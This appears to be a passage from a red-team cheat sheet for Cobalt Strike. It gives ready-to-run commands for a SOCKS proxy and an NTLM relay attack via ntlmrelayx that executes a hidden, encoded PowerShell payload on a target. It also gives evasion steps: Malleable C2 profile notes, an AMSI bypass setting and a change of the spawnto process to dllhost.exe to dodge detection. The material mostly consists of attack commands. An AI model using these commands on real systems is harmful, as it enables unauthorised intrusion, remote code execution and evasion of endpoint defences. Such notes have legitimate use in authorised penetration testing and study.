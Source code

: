 #### Create sockx proxy
```
socks 1080 socks5 disableNoAuth socks_user socks_password
```

#### NTLMRelay execute command
```
sudo proxychains ntlmrelayx.py -t smb://<TARGET IP> -smb2support --no-http-server --no-wcf-server -c 'powershell -nop -w hidden -enc <PAYLOAD>'
```

#### Stop portbender
```
jobs
jobkill <JID>
kill <PID>
```
 
## Evasion
### Malleable C2 profile
- Example: https://github.com/Cobalt-Strike/Malleable-C2-Profiles
- Changes to C2 profile requires teamserver restart and a new beacon!
- Good changes: https://github.com/WKL-Sec/Malleable-CS-Profiles

#### Check profile for errors
```
./c2lint <PROFILE>
```

### Amsi bypass
#### Add the following to the .profile
- `amsi_disable` only applies to `powerpick`, `execute-assembly` and `psinject`.  It does not apply to the powershell command
```
post-ex {
    set amsi_disable "true";
}
```

### Spawnto
- `rundll32` being the default `spawnto` for Cobalt Strike is a common point of detectiom.
- The process used for post-ex commands and psexec can be changed on the fly in the CS GUI. 

#### Change spawnto
```
spawnto x64 %windir%\sysnative\dllhost.exe
spawnto x86 %windir%\syswow64\dllhost.exe
```

#### Revert spawnto
```
spawnto
```
